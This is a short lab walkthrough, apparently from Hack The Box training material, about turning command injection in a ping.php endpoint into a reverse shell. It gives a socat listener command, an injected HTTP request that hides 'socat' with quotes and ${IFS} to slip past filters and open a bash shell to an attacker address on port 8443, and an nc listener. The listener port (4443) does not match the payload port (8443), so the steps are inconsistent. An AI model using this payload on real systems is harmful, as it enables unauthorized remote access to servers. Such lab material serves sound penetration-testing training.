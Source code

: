 In the example below we have RCE through burp
1. We'll start a Socat listener on our attack host.
```
w1j0y@htb[/htb]$ socat file:`tty`,raw,echo=0 tcp-listen:4443
```
2. Next, we'll execute a Socat one-liner on the target host.
```
GET /ping.php?ip=127.0.0.1%0a's'o'c'a't'${IFS}TCP4:10.10.14.15:8443${IFS}EXEC:bash HTTP/1.1
```
```
nc -lnvp 8443
```
3. we'll have a stable reverse shell connection on our Socat listener.